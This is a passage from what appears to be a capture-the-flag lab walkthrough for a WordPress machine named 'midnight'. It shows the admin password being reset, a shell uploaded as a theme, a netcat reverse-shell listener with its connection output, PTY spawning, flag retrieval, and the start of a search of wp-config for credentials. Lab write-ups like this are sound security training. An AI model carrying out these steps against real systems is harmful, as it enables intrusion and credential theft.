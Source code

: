 ```
```
// Now we changed the password for an md5 hash that I generated with cmd5.org, the hash decrypted is equal to "root123", so now I will try and login to the wordpress


![wearein](https://user-images.githubusercontent.com/47869173/220795741-63f9515b-926a-43cd-a399-00223bb9944e.jpg)


// Now we need to get access to the machine, after searching for a while I found out that msfconsole has an exploit that uploads an wordpress shell using admin login, so lets get to it


// I was getting some errors, so I reverted the machine, I still couldnt get the exploit to work, so I uploaded a shell as a theme, and reverse the connection to netcat

![reverse1](https://user-images.githubusercontent.com/47869173/220795818-62011fc2-4d81-4106-8039-4723895259ec.jpg)
![reverse2](https://user-images.githubusercontent.com/47869173/220795821-e0501967-5a59-43c4-869d-7046d6d4f58b.jpg)
![reverse3](https://user-images.githubusercontent.com/47869173/220795822-81c83034-f37d-47f6-9150-9ec15cf08c38.jpg)


//And now we curl it, and boom, we got access to it
```

┌──(root㉿kali)-[/home/astra]
└─# nc -lvnp 7777

listening on [any] 7777 ...
connect to [192.168.45.5] from (UNKNOWN) [192.168.164.88] 44648
Linux midnight 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64 GNU/Linux
 19:10:29 up  1:28,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
//Lets starting by spawning an interactive shell and looking for the first flag
```

$ python3 -c 'import pty; pty.spawn("/bin/bash")'

www-data@midnight:/$ cd home
cd home

www-data@midnight:/home$ ls
ls
jose

www-data@midnight:/home$ cd jose
cd jose

www-data@midnight:/home/jose$ ls
ls
local.txt  user.txt

www-data@midnight:/home/jose$ cat lo
cat local.txt 
97f049b9e286e5582381beba2d92a78a

www-data@midnight:/home/jose$ 
```
// Now we escalate privileges, first I had found an user called "jose" so I switch to it by going to the wp-config file and getting jose's password
```

www-data@midnight:/home/jose$ cd /var/www/html/wordpress
cd /var/www/html/wordpress
```